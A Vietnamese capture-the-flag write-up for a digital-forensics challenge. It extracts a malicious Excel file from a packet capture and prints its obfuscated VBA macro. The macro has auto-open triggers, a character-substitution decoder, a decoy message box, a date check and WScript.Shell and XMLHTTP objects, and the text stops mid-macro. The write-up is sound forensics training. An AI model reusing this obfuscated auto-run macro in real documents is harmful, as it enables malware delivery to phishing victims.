








### Description
- Sau khi mẫu tài liệu độc hại của Hòa bị các nhà phân tích từ Cookie Arena mổ xẻ và mỉa mai là quá đơn giản, Hòa quyết tâm tham gia tiếp một khóa Tin học văn phòng nâng cao để tạo ra một mẫu mã độc phức tạp hơn. Sau đó, Hòa thử nghiệm mẫu mã độc mới bằng cách đính kèm vào email phishing cho thầy giáo của mình. Cuối cùng Hòa chiếm quyền điều khiển thành công máy tính của thầy giáo và thậm chí còn đánh cắp được tập bài kiểm tra cuối kì sắp tới.
- Tải challenge: https://drive.google.com/file/d/1gISGx8IgR84qTBW7fbXs5HqlED1TESQ-/view?usp=drive_link (pass: cookiehanhoan)

- Format FLAG: CHH{XXX}
### Link challenge 
> https://battle.cookiearena.org/challenges/digital-forensics/under-control
### Solution 
- Sau khi tải file và giải nén mình nhận được 1 file pcapng có tên `NoStarWhere.pcapng`
- Lướt sơ 1 tí thấy rằng có 1 file xls đang được nhận bên trong mạng
- 
- Theo dõi luồng http lại thấy file chứa vba, chắc rằng mọi vấn đề đều bắt nguồn tại đây
- 
- Sau khi lụm file về, đầu tiên ta dùng olevba để thử. Thấy rằng nó là 1 đoạn script nhưng đã bị thay đổi biến nhằm làm khó quá trình điều tra.
<details>
<summary>
 Xem VBA tại đây 
</summary>

```
Sub Auto_Open()
Workbook_Open
End Sub
Sub AutoOpen()
Workbook_Open
End Sub
Sub WorkbookOpen()
Workbook_Open
End Sub
Sub Document_Open()
Workbook_Open
End Sub
Sub DocumentOpen()
Workbook_Open
End Sub
Function ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨)
¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»· = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåض§Ú¥"
»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢ = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨)
¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯© = InStr(¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·, Mid(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨, y, 1))
If ¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯© > 0 Then
¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®« = Mid(»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢, ¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯©, 1)
¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» = ¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» + ¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«
Else
¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» = ¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£» + Mid(µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨, y, 1)
End If
Next
ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨ = ¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»
For ³§½¢º¹¸°¾»´¦§¢·¬»´¦³²¦¦·°¶¥°¯¾µ·§½µº¦¶»¹²¥¦¥·²¢¥³°§°¹¾¾£½©¼°¥«ª§¡¹¶° = 1 To Len(®¶®¾ª¼¿¢·¥»°¾£º¤¿º·¡¦ª¹¹¾´°¢²¶©»°´¢«°µ¸¶¥¤·«½¿¢´¹º¡º»º¸®µ»³¸µ»¦¦½¨¾¾¨¦²)
®¶®¾ª¼¿¢·¥»°¾£º¤¿º·¡¦ª¹¹¾´°¢²¶©»°´¢«°µ¸¶¥¤·«½¿¢´¹º¡º»º¸®µ»³¸µ»¦¦½¨¾¾¨¦² = ³§½¢º¹¸°¾»´¦§¢·¬»´¦³²¦¦·°¶¥°¯¾µ·§½µº¦¶»¹²¥¦¥·²¢¥³°§°¹¾¾£½©¼°¥«ª§¡¹¶°
Next
For ¥½µ©¡»¡·¤¼¶µ¢¾·½¼¾®¦»»¼¬§ª¦·°¹·³¹¸¤µ³³¡¢£§´¤´¹¨´¡¾¦¬°¹¦¼¥°¡³» = 2 To Len(£©©³¶º©«®®·º¿¿°µ·¡º·«½ª¾¢¢µ¥¹¾²ª¤°¥©½®¥³µ¯¶¹¹´·¹³½²µ£²·¬·¿³¤¹´¨¢º§¯²¦)
£©©³¶º©«®®·º¿¿°µ·¡º·«½ª¾¢¢µ¥¹¾²ª¤°¥©½®¥³µ¯¶¹¹´·¹³½²µ£²·¬·¿³¤¹´¨¢º§¯²¦ = 2
Next
For »´¦¾¨¶¶½»¿º©³¬µ³°¶¢µ¼²¢°·¸¤¾¨»£¼¡»¥¹¼¤·©©³¹§¾¸¢·¤·¼ºµ£· = 3 To Len(»¶ª¨½©ª¾»¼§µ¨®º¾¢°¦»»¬¥§»¡¬·»¥¾¥¤½°·¾¢²³¡¹¾³¢µ¾·¹«¬¸¼´³£¥°µ»«½°®¸)
»¶ª¨½©ª¾»¼§µ¨®º¾¢°¦»»¬¥§»¡¬·»¥¾¥¤½°·¾¢²³¡¹¾³¢µ¾·¹«¬¸¼´³£¥°µ»«½°®¸ = »´¦¾¨¶¶½»¿º©³¬µ³°¶¢µ¼²¢°·¸¤¾¨»£¼¡»¥¹¼¤·©©³¹§¾¸¢·¤·¼ºµ£·
Next
For ¹®µ´¾¥»³ºª´¡¹®¶¶®¦·³«¢¢¢¹µ¹½¸¦§¥§·°°¡µ¼¤¿©¦¸£¥¥¹¦¶¨¹«©§µ¡´²·°º¢·¡¸²µ¤°²³¯£«¶£ = 4 To Len(´³®½£¼µ·©¡¤¨®º²§¿»²¹£°»¦¾¹²²³¡¨«¯°»³¸¢»¹²£»´£¬¦º¸¸³¾½¨¡º¥¬¥«¹·§¶¶°¦«¹¥¤·)
´³®½£¼µ·©¡¤¨®º²§¿»²¹£°»¦¾¹²²³¡¨«¯°»³¸¢»¹²£»´£¬¦º¸¸³¾½¨¡º¥¬¥«¹·§¶¶°¦«¹¥¤· = 2
Next
End Function
Sub Workbook_Open()
Dim ¹·³«»½¦¨¬¢¸°¤¼¾£¬»¢¾´¢¢µ¾¡¥»»«·¸»µ´¾¼¶»²¥§©¥¥¾¿¼¿²µ°¤²£¹´¶§ As Object
Dim ¦¡º¾¿°®¹½º°¡£¿¡¢³´º¥¦²¤°°·¥®½½¡¶«¥¸¹«©·¬°·®¶£³¬§§¹°«µ©¹¢´¥ª¾¾¸»¹©§²·°¢ª¸¢£¡ As String
Dim ¤¸¿º«¡¬¡°µ²¢¹¾¿¡¼²¥¾®¨¶µ»¾«º½¼»ª²¢¾ª¤»¹¬»¾»¸¤µµ°¡§¬¿§¢¥§¥£¶¢¥©¨ As String
Dim §»¶¬¡¦¹³¾¸¸³££¹´´¸³¥¦´¢¹¥··£°¿²»º¶°°¥©²¢°¾ª«°©«®·½½··´®¹°µµ©½½§¥·°»¢¼¼´¡¦¡«¹ As String
Dim ¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ As Integer
¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ = Chr(50) + Chr(48) + Chr(48)
Set ¹·³«»½¦¨¬¢¸°¤¼¾£¬»¢¾´¢¢µ¾¡¥»»«·¸»µ´¾¼¶»²¥§©¥¥¾¿¼¿²µ°¤²£¹´¶§ = CreateObject("WScript.Shell")
¦¡º¾¿°®¹½º°¡£¿¡¢³´º¥¦²¤°°·¥®½½¡¶«¥¸¹«©·¬°·®¶£³¬§§¹°«µ©¹¢´¥ª¾¾¸»¹©§²·°¢ª¸¢£¡ = ¹·³«»½¦¨¬¢¸°¤¼¾£¬»¢¾´¢¢µ¾¡¥»»«·¸»µ´¾¼¶»²¥§©¥¥¾¿¼¿²µ°¤²£¹´¶§.SpecialFolders("AppData")
Dim ¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼
Dim ´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦
Dim ¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬¯¨³³¿¯©¶
Dim ³§½¢º¹¸°¾»´¦§¢·¬»´¦³²¦¦·°¶¥°¯¾µ·§½µº¦¶»¹²¥¦¥·²¢¥³°§°¹¾¾£½©¼°¥«ª§¡¹¶° As Long
Dim ¥½µ©¡»¡·¤¼¶µ¢¾·½¼¾®¦»»¼¬§ª¦·°¹·³¹¸¤µ³³¡¢£§´¤´¹¨´¡¾¦¬°¹¦¼¥°¡³» As String
Dim ¿¨¡©§¾¡º·¼½µ¡®¾¥¼½«¹´¥¥¶²°»¤¡·»°¬£°¿¥§¬¸©º¢¾¥·´£¹¥¡½¬¸ª´º°»§¬¥¡£¢¦»·¶ As Long
Dim »¶ª¨½©ª¾»¼§µ¨®º¾¢°¦»»¬¥§»¡¬·»¥¾¥¤½°·¾¢²³¡¹¾³¢µ¾·¹«¬¸¼´³£¥°µ»«½°®¸ As String
Dim »´¦¾¨¶¶½»¿º©³¬µ³°¶¢µ¼²¢°·¸¤¾¨»£¼¡»¥¹¼¤·©©³¹§¾¸¢·¤·¼ºµ£· As Long
Dim ¹®µ´¾¥»³ºª´¡¹®¶¶®¦·³«¢¢¢¹µ¹½¸¦§¥§·°°¡µ¼¤¿©¦¸£¥¥¹¦¶¨¹«©§µ¡´²·°º¢·¡¸²µ¤°²³¯£«¶£ As String
Dim °»»¦¡½º®¤¼º¬³¤³º¸¶®¨½®©µ«¢´¾´··¦«º¬º°¥²ª¹«¿º¼£º·¦¢¬°¢¾§µ²° As String
Dim £©©³¶º©«®®·º¿¿°µ·¡º·«½ª¾¢¢µ¥¹¾²ª¤°¥©½®¥³µ¯¶¹¹´·¹³½²µ£²·¬·¿³¤¹´¨¢º§¯²¦ As Long
Dim ³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬
Dim ²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥
Dim ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡ As Integer
Dim ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²
Dim ®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©
¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡ = 1
Range("A1").Value = ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("4BEiàiuP3x6¿QEi³")
Dim ½¹¢²°½¢¼¬µ¥¨³¹²¡£½¬¿´¥ºµ¢ª¥°¸¢¶«µ§¥°°¤µ¸µ¾¦°¹¾¥¹»»·¡¾²°£¬¼·´©·¡·©¾³§¦¤·¶¨¹º°¹©§©££»¥¡¢¾¤ As String
´¸®¢»¬«¢®¼¿¾«²¡»¦°´»·°º¥ª¡½½¤§»´ª§¥¸»®«¶¿¸¶¢³µ¶¾¿¼£²¡¾«¹¶¹§ºµº¦¶¹¦¨¸®¸§¹µ³¢£¯©¦¾·º£¼º²»¨®²¦¤¦·½»¶³ = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
½¹¢²°½¢¼¬µ¥¨³¹²¡£½¬¿´¥ºµ¢ª¥°¸¢¶«µ§¥°°¤µ¸µ¾¦°¹¾¥¹»»·¡¾²°£¬¼·´©·¡·©¾³§¦¤·¶¨¹º°¹©§©££»¥¡¢¾¤ = ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨(´¸®¢»¬«¢®¼¿¾«²¡»¦°´»·°º¥ª¡½½¤§»´ª§¥¸»®«¶¿¸¶¢³µ¶¾¿¼£²¡¾«¹¶¹§ºµº¦¶¹¦¨¸®¸§¹µ³¢£¯©¦¾·º£¼º²»¨®²¦¤¦·½»¶³)
MsgBox ½¹¢²°½¢¼¬µ¥¨³¹²¡£½¬¿´¥ºµ¢ª¥°¸¢¶«µ§¥°°¤µ¸µ¾¦°¹¾¥¹»»·¡¾²°£¬¼·´©·¡·©¾³§¦¤·¶¨¹º°¹©§©££»¥¡¢¾¤, vbInformation, ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim ¢¶¸¡³·´®¨½¥¡¼»´§²¾½º¢¿°°¹¹££©´¢©¹ª¬»¡¡°º·«¶²¦¾²¦¹º¤¹¼»«»¬º¤¸½¥¹¬²§¶°¾·»§©¥ª As Date
Dim ¹»«´¾¹¡º¸¿°·¶¥µ¢µ¾²¦¥§¶¨´²½°·£®·»ª¡¬¬»½µ³©·»¾¤·¹¤µ®º¤¸§¶·¢·¹º££§¬¸ As Date
¢¶¸¡³·´®¨½¥¡¼»´§²¾½º¢¿°°¹¹££©´¢©¹ª¬»¡¡°º·«¶²¦¾²¦¹º¤¹¼»«»¬º¤¸½¥¹¬²§¶°¾·»§©¥ª = Date
¹»«´¾¹¡º¸¿°·¶¥µ¢µ¾²¦¥§¶¨´²½°·£®·»ª¡¬¬»½µ³©·»¾¤·¹¤µ®º¤¸§¶·¢·¹º££§¬¸ = DateSerial(2023, 6, 6)
If ¢¶¸¡³·´®¨½¥¡¼»´§²¾½º¢¿°°¹¹££©´¢©¹ª¬»¡¡°º·«¶²¦¾²¦¹º¤¹¼»«»¬º¤¸½¥¹¬²§¶°¾·»§©¥ª < ¹»«´¾¹¡º¸¿°·¶¥µ¢µ¾²¦¥§¶¨´²½°·£®·»ª¡¬¬»½µ³©·»¾¤·¹¤µ®º¤¸§¶·¢·¹º££§¬¸ Then
Set ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸² = CreateObject("microsoft.xmlhttp")
Set ²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥ = CreateObject("Shell.Application")
